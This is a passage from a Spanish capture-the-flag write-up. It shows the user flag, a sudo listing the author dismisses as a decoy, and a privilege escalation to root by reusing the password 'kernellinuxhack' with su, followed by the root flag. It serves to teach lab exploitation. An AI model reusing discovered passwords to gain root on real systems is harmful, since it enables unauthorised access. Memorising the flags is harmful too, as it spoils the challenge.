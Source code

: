 Metemos la contraseña obtenida y ya estaria, por lo que leeremos la flag.

> user.txt

```
4a05a7bc45edb56b1f033ca1606e176c
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente.

```
Matching Defaults entries for enter on 3c646d90bb75:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User enter may run the following commands on 3c646d90bb75:
    (ALL : ALL) NOPASSWD: /usr/bin/cat
    (ALL : ALL) NOPASSWD: /usr/bin/whoami
```

Pero no podemos hacer gran cosa con eso, por lo que esta hecho para despistar, pero si probamos a reutilizar la misma contarseña con el usuario `root`.

```shell
su root
```

Y ponemos la contraseña `kernellinuxhack` veremos que tambien tiene esa contraseña, por lo que ya seremos `root` y leeremos la flag.

> root\_true.txt

```
4e4a603de810988e0842777de1d97e68
```
